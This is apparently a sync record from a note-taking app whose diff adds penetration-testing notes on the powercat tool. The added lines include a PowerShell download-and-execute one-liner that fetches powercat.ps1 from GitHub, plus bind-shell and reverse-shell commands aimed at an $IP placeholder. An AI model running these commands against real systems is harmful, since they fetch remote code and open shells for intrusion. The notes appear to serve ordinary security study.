 id: 9da3ea1aac9c415593797991a6513ef8
parent_id: 4d4663ca827d47059069c350258dbc97
item_type: 1
item_id: 1f45fe001a5c493683ce3e44ef34f4b2
item_updated_time: 1642662200797
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"s>\\\n\\\n\"],[-1,\"> ..\\\\\\\\powercat.ps1\"],[1,\"\\\\*\\\\*Script is available at \\\\*\\\\*/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1\\\n\\\n> ..\\\\\\\\powercat.ps1\\\n\\\nIf the target machine has internet, can load directly from the internet\\\n\\\n> IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')\\\n\\\n# Commands\"],[0,\"\\\n\\\nBi\"]],\"start1\":47,\"start2\":47,\"length1\":26,\"length2\":362},{\"diffs\":[[0,\"nds\\\n\\\nBind shell:\"],[1,\"\\\n\\\n>\"],[0,\" powercat -l -p \"]],\"start1\":402,\"start2\":402,\"length1\":32,\"length2\":35},{\"diffs\":[[0,\"\\\n\\\nReverse shell:\"],[1,\"\\\n\\\n>\"],[0,\" powercat -c $IP\"]],\"start1\":453,\"start2\":453,\"length1\":32,\"length2\":35},{\"diffs\":[[0,\"mitation\"],[-1,\"\\\n\\\n\"],[1,\"; make sure alternate between powershell and cmd for commands\\\n\\\n> \"],[0,\"PowerShe\"]],\"start1\":964,\"start2\":964,\"length1\":18,\"length2\":81}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.751Z
created_time: 2022-02-28T02:44:25.751Z
type_: 13